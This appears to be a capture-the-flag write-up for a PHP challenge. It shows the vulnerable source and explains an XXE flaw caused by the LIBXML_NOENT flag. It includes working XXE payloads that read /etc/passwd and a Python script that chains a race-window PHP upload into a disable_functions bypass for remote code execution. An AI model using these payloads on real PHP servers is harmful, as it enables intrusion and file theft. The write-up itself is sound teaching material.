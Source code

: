 # 31 Line PHP

## Description

Like the legendary ~~one-~~ 31- line php challenge

**`62.84.114.238/`**

_On the last step, you’ll need a recently published 0day._

## Solution

Here's the challenge source code:

```php
<?php
session_start();
if (!isset($_POST["data"])) {
    highlight_file(__FILE__);
    die();
}
if (!isset($_SESSION["id"])) {
    $_SESSION["id"] = md5(random_bytes(16));
}
$id = $_SESSION["id"];
echo "Welcome, $id\r\n";

if (!file_exists("/var/www/html/upload/" . $id)) {
    mkdir("/var/www/html/upload/" . $id, 0755, true);
}
$name = $_FILES["data"]["name"];
move_uploaded_file($_FILES["data"]["tmp_name"],"/var/www/html/upload/$id/$name");
if (PHP_VERSION_ID < 80000) {
    // This function has been deprecated in PHP 8.0 because in libxml 2.9.0, external entity loading is
    // disabled by default, so this function is no longer needed to protect against XXE attacks.
    $loader = libxml_disable_entity_loader(true);
}
$xmlfile = file_get_contents("/var/www/html/upload/$id/$name");
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT);
$creds = simplexml_import_dom($dom);
$user = $creds->user;
$pass = $creds->pass;
echo "You have logged in as user $user";
unlink("/var/www/html/upload/$id/$name");
?>
```

### XXE Injection

We can quite clearly see that this must have something to do with XML parsing. One part of the code stood out in particular:

```php
if (PHP_VERSION_ID < 80000) {
    // This function has been deprecated in PHP 8.0 because in libxml 2.9.0, external entity loading is
    // disabled by default, so this function is no longer needed to protect against XXE attacks.
    $loader = libxml_disable_entity_loader(true);
}
```

The comments seem reasonable. Does this mean that there is no XXE here?

It turns out that this part was inspired by a [WordPress bug](https://blog.sonarsource.com/wordpress-xxe-security-vulnerability) a while back this year. While the above justification is correct, the nuance lies in how `loadXML()` is called.

It turns out that the `LIBXML_NOENT` flag actually _enables_ entity substitution - the flag means that no entities will be left in the result, i.e. external entities will be fetched and substituted.

```php
$dom->loadXML($xmlfile, LIBXML_NOENT);
```

So, surprisingly, we _do_ have an XXE here. Here's an LFI payload:

```
------WebKitFormBoundaryO6d3yhN5GpxEyAKE
Content-Disposition: form-data; name="data"; filename="test.xml"
Content-Type: text/xml

<!DOCTYPE myDoc [ <!ENTITY myExternalEntity SYSTEM "file:///etc/passwd" > ]>
<creds>
    <user>&myExternalEntity;</user>
    <pass>mypass</pass>
</creds>
------WebKitFormBoundaryO6d3yhN5GpxEyAKE
Content-Disposition: form-data; name="data"

test
------WebKitFormBoundaryO6d3yhN5GpxEyAKE--
```

### PHP Code Injection

I started searching for flag files but had no luck. After asking the organizers, they confirmed that I must get an RCE somehow.

This got me looking back at the source code. Note that we have a remote file upload here - the uploaded file is at `/var/www/html/upload/$id/$name` and we have access to this file through the web server (the web root is `/var/www/html`). The only caveat is that the file is deleted as soon as the XML parsing is done.

This still allows us to request the file _while_ the XML parsing is being performed. If we upload a PHP file, we can request that file again within the XML and use `php://filter/` to reflect the output into the `<user>` tag.

```
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://62.84.114.238/upload/89e05a8b6e028eeda25a0845b9b3daaa/payload.php" >]>
<creds>
    <user>&xxe;</user>
    <pass></pass>
</creds>
    
<?php phpinfo(); ?>
```

Using the `phpinfo()` output, we can see the `disable_functions` configuration.

![](<../../.gitbook/assets/image (79) (1).png>)

As we can see, all of the functions that can give us a shell command execution are disabled.

### disable\_functions Bypass

The challenge hinted at a zero-day being needed for the last step.

A recent (published just 5 days ago) [PoC](https://github.com/mm0r1/exploits/tree/master/php-filter-bypass) allowed us to bypass `disable_functions` on all PHP versions.

This allowed us to get shell RCE and run the `/readflag` binary to read the flag.

```python
import requests
import re
import base64

FILENAME = 'payload.php'
TARGET = 'http://62.84.114.238'
COMMAND = '/readflag'

with open(FILENAME, 'w') as f:
    f.write("""
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://62.84.114.238/upload/3354e780fbef91d0ebc5875d77aee578/{}" >]>
<creds>
    <user>&xxe;</user>
    <pass></pass>
</creds>
    """.format(FILENAME) + """
<?php
# PHP 7.0-8.0 disable_functions bypass PoC (*nix only)
#
# Bug: https://bugs.php.net/bug.php?id=54350
# 
# This exploit should work on all PHP 7.0-8.0 versions
# released as of 2021-10-06
#
# Author: https://github.com/mm0r1

pwn('{}');""".format(COMMAND) + r"""

... EXPLOIT HERE ...

?>
""")

r = requests.post(TARGET,
    files = {'data': (FILENAME, open(FILENAME, 'rb'))},
    data = {'data': 'test'},
    headers = {'Cookie': 'PHPSESSID=85ab80ed3e1f88a7827a75c5f9dc7c1f'}
)

print(r.text)

match = re.search('You have logged in as user (.*)', r.text)
print(match[1])
print(base64.b64decode(match[1]).decode())
```

The flag is `spbctf{XX3_2_rCe_w3Ll_D0n3}`\
